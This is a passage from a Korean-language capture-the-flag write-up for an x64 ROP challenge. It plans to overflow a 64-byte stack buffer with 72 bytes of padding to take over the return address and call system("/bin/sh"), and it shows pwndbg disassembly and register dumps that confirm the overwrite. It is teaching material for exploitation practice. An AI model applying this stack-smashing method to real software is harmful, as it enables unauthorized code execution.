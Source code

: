 ## 익스플로잇

- ROP를 사용하여 `system("/bin/sh")` 를 실행하는 것을 목표로 진행
- `buf` 가 할당된 64바이트 뒤에는 8바이트의 `SFP` 와 8바이트의 `RET` 이 위치
- 그래서 더미값으로 72바이트 만큼 입력해서 `buf, SFP` 를 덮고 `RET` 를 원하는 값으로 설정하면 바이너리의 실행 흐름을 조작할 수 있을 것 같음

### 디버깅

```bash
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000004007ba <+0>:     push   rbp
   0x00000000004007bb <+1>:     mov    rbp,rsp
   0x00000000004007be <+4>:     sub    rsp,0x50
   0x00000000004007c2 <+8>:     mov    DWORD PTR [rbp-0x44],edi
   0x00000000004007c5 <+11>:    mov    QWORD PTR [rbp-0x50],rsi
   0x00000000004007c9 <+15>:    lea    rdx,[rbp-0x40]
   0x00000000004007cd <+19>:    mov    eax,0x0
   0x00000000004007d2 <+24>:    mov    ecx,0x8
   0x00000000004007d7 <+29>:    mov    rdi,rdx
   0x00000000004007da <+32>:    rep stos QWORD PTR es:[rdi],rax
   0x00000000004007dd <+35>:    mov    eax,0x0
   0x00000000004007e2 <+40>:    call   0x40075e <initialize>
   0x00000000004007e7 <+45>:    lea    rax,[rbp-0x40]
   0x00000000004007eb <+49>:    mov    edx,0x400
   0x00000000004007f0 <+54>:    mov    rsi,rax
   0x00000000004007f3 <+57>:    mov    edi,0x0
   0x00000000004007f8 <+62>:    call   0x4005f0 <read@plt>
   0x00000000004007fd <+67>:    lea    rax,[rbp-0x40]
   0x0000000000400801 <+71>:    mov    edx,0x40
   0x0000000000400806 <+76>:    mov    rsi,rax
   0x0000000000400809 <+79>:    mov    edi,0x1
   0x000000000040080e <+84>:    call   0x4005d0 <write@plt>
   0x0000000000400813 <+89>:    mov    eax,0x0
   0x0000000000400818 <+94>:    leave
   0x0000000000400819 <+95>:    ret
End of assembler dump.
```

- `read, write`  함수에 인자로 들어가는 `buf` 의 주소는 `rbp - 0x40` 임을 확인
- 따라서 `buf + 0x40` 이 `SFP` 이고, `buf + 0x48` 이 익스플로잇 시 값을 조작하여야 하는 `RET` 의 부분임
- 확인

```bash
─────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────
 RAX  0x0
 RBX  0x0
 RCX  0x7ffff7e99887 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0x40
 RDI  0x1
 RSI  0x7fffffffc850 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbb\n'
 R8   0x7fffffffc780 ◂— 0x0
 R9   0x0
 R10  0x7ffff7d8c128 ◂— 0xf002200005372 /* 'rS' */
 R11  0x246
 R12  0x7fffffffc9a8 —▸ 0x7fffffffce4e ◂— '/home/jerry/rop/basic_rop_x64'
 R13  0x4007ba (main) ◂— push rbp
 R14  0x0
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
 RBP  0x6161616161616161 ('aaaaaaaa')
 RSP  0x7fffffffc898 ◂— 'bbbbbbbb\n'
 RIP  0x400819 (main+95) ◂— ret
```